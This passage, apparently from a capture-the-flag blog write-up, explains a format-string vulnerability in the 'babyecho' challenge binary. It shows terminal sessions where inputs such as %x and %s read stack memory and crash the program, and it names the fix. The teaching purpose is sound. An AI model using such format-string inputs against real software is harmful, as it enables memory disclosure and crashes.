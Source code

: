   <span class="Constant">400552</span>:       <span class="Constant">89 7d ec</span>                <span class="Identifier">mov</span>    <span class="Identifier">DWORD</span> <span class="Identifier">PTR</span> [<span class="Identifier">rbp</span>-<span class="Constant">0x14</span>],<span class="Identifier">edi</span>
  <span class="Constant">400555</span>:       <span class="Constant">89 75 e8</span>                <span class="Identifier">mov</span>    <span class="Identifier">DWORD</span> <span class="Identifier">PTR</span> [<span class="Identifier">rbp</span>-<span class="Constant">0x18</span>],<span class="Identifier">esi</span>
  <span class="Constant">400558</span>:       <span class="Constant">c7 45 fc 23 01 00 00 </span>   <span class="Identifier">mov</span>    <span class="Identifier">DWORD</span> <span class="Identifier">PTR</span> [<span class="Identifier">rbp</span>-<span class="Constant">0x4</span>],<span class="Constant">0x123</span>
[...]
</pre>

<h2>printf() - the important bits</h2>

We've seen how to read off the stack with a format-string vulnerability. What else can we do? At this point, we'll switch to the <a href='https://blogdata.skullsecurity.org/babyecho'>binary from the game</a> for the remainder of the testing.

The game binary is really easy.. it's a pretty standard format string vulnerability:

<pre>
$ <span class='in'>./babyecho</span>
Reading 13 bytes
<span class='in'>hello</span>
hello
Reading 13 bytes
<span class='in'>%x</span>
d
Reading 13 bytes
<span class='in'>%x %x %x</span>
d a 0
Reading 13 bytes
<span class='in'>%x%x%x%x %x</span>
da0d fffff87c
</pre>

Basically, it's doing printf(attacker_str) - simple, but a vulnerability. The right way to do it is printf("%s", atatcker_str) - that way, attacker_str won't be mistaken for a format string.

The first important bit is that, with just that simple mistake in development, we can crash the binary:

<pre>
$ <span class='in'>./babyecho</span>
Reading 13 bytes
<span class='in'>%s</span>
Segmentation fault (core dumped)
</pre>

And we can read strings:

<pre>
Reading 13 bytes
<span class='in'>%x%x%x%x %x</span>
da0d fffff87c
$ <span class='in'>./babyecho</span>
Reading 13 bytes
<span class='in'>%x%x%x%x %s</span>
da0d %x%x%x%x %s
</pre>
